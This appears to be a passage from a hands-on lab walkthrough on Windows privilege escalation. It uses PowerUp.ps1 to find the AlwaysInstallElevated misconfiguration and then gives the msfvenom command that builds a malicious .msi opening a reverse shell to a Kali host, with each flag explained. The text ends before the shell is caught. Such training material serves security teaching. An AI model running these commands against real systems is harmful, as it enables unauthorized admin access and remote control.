 1. From the **PowerShell** prompt, enter `whoami /priv`.
2. Notice that your current privilege levels are severely restricted.

In this challenge, you successfully connected to the target host using a compromised account and enumerated the privilege level of the compromised account.

# Enumeration

In this challenge you will continue your enumeration of the target host and enumerate any privilege escalation opportunities that may exist. You've got this!

For your convenience the **PowerUp.ps1** script has been uploaded to the *C:\Tools\* folder:

1. Enter `cd C:\Tools\` from the **PowerShell** prompt.
2. Enter `dir` and confirm that the **PowerUp.ps1** script is present.
3. Import the **PowerUp** module by entering `Import-Module .\PowerUp.ps1`:
   1. You will receive a warning message, this can safely be ignored.
4. Run the **PowerUp** module to check for common privilege escalation vulnerabilities: `Invoke-AllChecks 2>$null`.

Notice that all errors (*stderr* or *2*) are being piped to *$null*. **PowerUp** was originally written for **PowerShell version 2** and may generate som errors in **PowerShell 7**.

When the script has completed running, you should notice the following output:

<img width="1477" alt="Screenshot 2025-06-03 at 13 19 12" src="https://github.com/user-attachments/assets/25c21acf-1501-4009-abce-579afd46a0a7" />

This is excellent news! There is an opportunity for you to escalate your privileges. You can take a look at why this vulnerability exists:

1. From the **PowerShell** prompt, enter `Get-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\Installer"`.
2. Now enter `Get-ItemProperty -Path "HKCU:\SOFTWARE\Policies\Microsoft\Windows\Installer"`.
3. Observe the output, as shown below:

<img width="1426" alt="Screenshot 2025-06-03 at 13 19 50" src="https://github.com/user-attachments/assets/1dab2de8-d398-47c3-acdf-6c1667df9f7f" />

To exploit this vulnerability the *AlwaysInstallElevated* registry key must equal *1* in the *HKEY_LOCAL_MACHINE* and the *HKEY_CURRENT_USER* hives. This condition has been met, nice!

In this challenge, you successfully enumerated privilege escalation opportunities on the target host. You discovered that the *AlwaysInstallElevated* registry keys can be abused.

# Privilege Escalation

In this challenge you will exploit the privilege escalation vulnerability that you discovered. You will deploy a malicious *.msi* binary and run it to gain a privileged reverse shell back to your *Kali* host.

First you will generate a malicious binary using *msfvenom*:

1. On your *Kali* host open a new terminal from the menu: **File > New Tab**. Or press **Ctrl+Shift+T**.
2. At the new terminal prompt, enter: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.31.24.100 LPORT=443 -a x64 --platform windows -f msi -o dark_kitten.msi`.
   1. The `-p` parameter is used to specify the type of payload (*windows/x64/shell_reverse_tcp*).
   2. The `LHOST=` parameter is used to specify the host listening for the reverse shell (this is your Kali host).
   3. The `LPORT=` parameter is the local port listening for the reverse shell.
   4. The `-a` parameter specifies the CPU architecture.
   5. The `--platform` parameter specifies the target OS platform.
   6. The `-f` parameter specifies the format of the binary.
   7. Finally, the `-o` specifies an output file to write the malicious binary to.
